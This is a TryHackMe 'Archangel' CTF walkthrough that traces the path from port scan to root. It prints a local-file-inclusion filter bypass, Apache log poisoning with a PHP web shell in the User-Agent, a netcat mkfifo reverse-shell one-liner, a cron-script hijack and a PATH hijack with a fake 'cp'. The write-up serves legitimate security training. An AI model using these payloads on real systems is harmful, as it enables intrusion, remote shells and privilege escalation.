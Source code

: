 # Archangel Room - TryHackMe


### Initial Port-scan
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/nmap.png)

- There is a webserver on port 80, so ill directory bruteforce to see if i can find anything interesting.

![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/dir_busting.png)

- Looking at the Directory scan, theres a /flags folder. I knew this was too easy, when i clicked on the link inside the file, it links to a youtube video "rick-rolled". I searched through a bunch of other directories but nothing stood out.
--------------
- At the top of the page of the main site, we we can see another hostname, which is one of the questions THM was asking for. 
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hostname.png)

- Now to be able to reach that site, we need to specify the address in our /etc/hosts file. Youll need sudo to edit it.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hosts.png)

- After that we can just put in the host-name in the url and it will take us to that site, because the hostname can be resolved to a IP now
- We found the first flag right at the front page of the new site.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/flag1.png)

----------
- Ok since this is a completely new site lets start directory bruteforcing again with fereoxbuster.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/dir_newsite.png)

- So we found 2 folders: /Robots.txt and /test.php. Ill start with robots first.
- Inside the robots folder, its the other file we found thats disallowed. So lets take a look at /test.php

![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/testbutton.png)
- As soon as i press the button on the  /test.php page. It sends a get request querying a file: mrrobot.php
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/test-file.png)

- At this point im trying for LFI vulnerabilities. I tried to transverse directories using ../../../../etc/passwd but there was some sort of filter. So i quickly googled LFI bypasses and came across this github page of some great bypasses. 
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

### Testing for LFI
- I Tried many bypasses until i found the double slashes worked.  ..//..//..//..//..//..//..//..//etc//passwd
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/passwd.png)
- If we look at the source file using our LFI, we can find the second flag.
- I ran into some issues trying to display the contents with the double slashes ..// so i had to base64 encode it using this paylaod. Once you have the base64 string you can decode it wherever youd like.
- `http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
--------------
- Now lets try to LFI the apache logs. 	/..//..//..//..//..//..//..//..//var//log//apache2//access.log
- Looks like we can, and we can see from the image its storing our user-agent "Mozilla...". This will be our attack vector
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/logs.png)
--------------
### RCE
- The user-agent is where we are going to put our payload
- `<?php system($_GET['cmd']); ?>` put this payload inside our user-agent, you can use curl, burpsuite, or whatever you prefer. Im using burpsuite for this example.
- to access the RCE you add `&cmd=` at the end of the URL. In this example im testing rce with `id`, but im also adding in a echo command with any string so i can easily find my results with a quick search directly on the page.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/rce_path.png)
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/rce.png)

- looks like everything works. Now for the reverse_shell.
- this will be our payload for our RCE to execute. (Make sure to start a netcat listener on your own IP and PORT that you specified in the payload. Mine will be on port 443)
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $YOUR_IP 443 >/tmp/f` 
- Important to note, you might run into the issue where the URL doesnt get processed properly and it might take you to google. You need to URL encode the payload, and specify the port the domain is on.
- `http://mafialive.thm:80/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var//log//apache2//access.log&cmd=m%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.100.95%209999%20%3E%2Ftmp%2Ff`

---------
- Now we have a shell. 
- To stabalize use `python3  -c   'import pty; pty.spawn("/bin/bash")'`


- While using linpeas to find ways to esculate privileges, theres an interesting script found in /opt.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hello_world.png)
- Doing a bit more enumeration, we also find the script is being run every minute by cron with the user archangle.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/cron.png)

- We have write permissions on the file too, so lets put in a reverse_shell just like we previously did. Also dont forget to start another nc listerner on a different port 
- echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $YOUR_IP 6666 >/tmp/f" > helloworld.sh
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/arc.png)


- WoooO!, now we have upgraded to the user archangel. Time for more enumeration.
- looking inside archangel's home directory, inside /secret theres the second flag. Also there is a binary file "backup", owned by root that we have read and execute permissions on. 
- cat'ing the binary we see its running a cp command
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/binary.png)


- So lets create a malicous file named "cp" and put it into our /tmp directory
- `touch /tmp/cp`
- cd into the /tmp directory and `echo "/bin/bash" > cp`
- Now all we need to do is modify our $PATH, then execute the backup file.
- `export PATH=/tmp:$PATH`
- now cd back to the directory with our backup file and run it ./backup
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/root.png)
- WOooOO! 
- GO into the root directory to find the last flag



